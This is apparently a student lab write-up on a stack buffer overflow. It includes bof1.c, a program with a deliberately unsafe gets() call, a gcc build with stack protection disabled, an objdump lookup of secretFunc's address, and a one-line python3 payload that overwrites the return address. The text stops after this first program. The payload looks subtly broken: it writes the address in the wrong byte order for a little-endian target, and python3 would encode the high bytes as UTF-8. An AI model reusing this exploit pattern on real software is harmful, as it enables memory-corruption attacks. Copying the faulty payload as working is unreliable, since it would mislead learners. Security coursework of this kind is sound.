 # I. Buffer overflow attack

> Conduct on bof1.c, bof2.c, bof3.c programs.

## 1. Conduct on bof1.c program

```c
#include<stdio.h>
#include<unistd.h>
void secretFunc(){
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

> ***Target***: call the function `secretFunc()` to print `Congratulation`.
> ***Method***: pass in a large amount of data to overflow the return address on the stack, then convert it to the address of the function `secretFunc()`.

### Compile source code with `gcc` (without protections):

```bash
gcc -g -m32 bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

![image-20240924164647587](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20240924164647587.png)

Thus, the executable file bof1.out has been created and is ready for debugging. However, there is a warning that the `gets(array)` function is unsafe.

> `gets()` is a very old function to collect user input data, but it does not control the length of the data, so it is very easy to buffer overflow.

### Determine the address of `secretFunc()`:

Using `objdump` to find the address:

```bash
objdump -d bof1.out | grep secretFunc
```

![image-20240924165724104](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20240924165724104.png)

So we know the address of `secretFunc()` is `0x0000bd11`

Load the program into `gdb`:

```bash
gdb bof1.out
```

```
echo $(python3 -c "print('a' * 208 + '\xbd\x11\x00\x00')") | ./bof1.out
```

